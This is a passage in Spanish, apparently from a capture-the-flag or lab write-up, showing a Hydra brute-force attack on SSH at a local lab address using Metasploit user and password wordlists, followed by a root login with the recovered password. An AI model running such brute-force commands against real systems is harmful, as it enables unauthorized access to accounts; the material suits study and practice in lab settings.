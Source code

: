 ![](img/Pasted%20image%2020241231181435.png#center)

---


#### HYDRA

También podemos realizar la fuerza bruta con HYDRA sin conocer ningún usuario ni contraseña
```
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 172.17.0.2 -t 4 ssh
```

![](img/Pasted%20image%2020241231184343.png#center)

Ya solo queda iniciar sesión con el protocolo `SSH`.
```
ssh root@172.17.0.2       # Después ponemos la contraseña estrella
```

![](img/Pasted%20image%2020241231184458.png#center)
